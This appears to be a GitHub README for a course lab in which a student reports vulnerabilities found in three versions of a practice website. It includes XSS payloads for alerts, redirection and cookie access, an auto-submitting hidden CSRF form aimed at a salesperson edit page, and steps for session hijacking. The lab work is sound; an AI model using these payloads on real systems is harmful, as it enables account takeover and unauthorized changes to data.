


# Project 8 - Pentesting Live Targets

Time spent: 10 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

Vulnerability #1: SQL Injection. 

Description: Developer forgot to properly sanitize salesperson.php query.



Vulnerability #2: Session Hijacking/Fixation

Description: Once you login to one of the website, you can obatin the seesion ID using the given tool ```"public/hacktools/change_session_id.php"```
             Then We can modify the session ID to the one we obtained from the Victim
             And Now we can login to Blue website


## Green

Vulnerability #1: Username Enumeration

Description: -Developer forgot to keep span tag class the same when username is or is not found, leading to vulnerability.
              -Using debugging tool, I was able to see that the Developer assigns two different classes, failed and failure, to the error message depending on the login senerio.


Vulnerability #2: Cross-Site Scripting (XSS)

Description:  Attacker can inject an XSS in their feedback form.
              Injected XSS Command:
              ```<script>alert('Jinwoo found the XSS!');</script>```


## Red

Vulnerability #1: Insecure Direct Object Reference

Description:  
    -The user can access information pertaining to a Salesperson that isn't on the list by using id = 10 or id = 11 in the URL.
    -To prevent this, the other sites redirect back to the Territories page if an illegal id request is made.


Vulnerability #2: Cross-Site Request Forgery

Description: 
    -The user has permissions to update information in the database via the edit pages without a valid CSRF token.
    -To prevent this, the other sites are actually validating the CSRF tokens on form submits and result in an invalid request error on submits with invalid tokens.
Script used:

```<!DOCTYPE html>
<html>

<head>
  <title>Real Form</title>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
</head>

<body onload="document.getElementById('f').submit();">
  <form action="https://104.197.73.39/red/public/staff/salespeople/edit.php?id=5" method="post" id="f" style="display: none;" target="hidden_results">
    <input name="first_name" value="Malcom" type="text">
    <input name="last_name" value="XX" type="text">
    <input name="phone" value="555-101-1080" type="text">
    <input name="email" value="bthepwr@salesperson.com" type="text">
  </form>
  <iframe name="hidden_results" style="display: none;"></iframe>
</body>

</html>
```


## Bonus Objectives

Bonus Objective 2: Build on Objective 4 (Cross-Site Scripting)
- I was able to insert <script>document.location = "https://google.com";</script> into the Contact page form to redirect the user to a new URL. 
- I am pretty sure that inserting <script>document.cookie = "username=Hacker1";</script> into the form would set cookie data and inserting   <script>alert(document.cookie);</script> into the form would read cookie data. 
- I was unable to test the XSS because I am not sure how to reset the feedback data so the URL redirection is executed before any future XSS attempts.


<b>Advanced Objective:</b> Build on Objectives 4 (XSS, Hijacking/Fixation) 
- First, I write a script that reads the session ID and insert it into the Contact page form on the Green Site target browser.
- Next, I write a script that writes the session ID and insert it into the Contact page form on the Green Site attack browser.
- Then, I got logged in on the Blue Site attack browser, since it would consider the old session ID as valid.
- I was unable to test the XSS because I am not sure how to reset the feedback data so the URL redirection is executed before any future XSS attempts.


## Notes

Click on star if you like :)

## License

    Copyright [2020] [Guruprem Rajpal]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
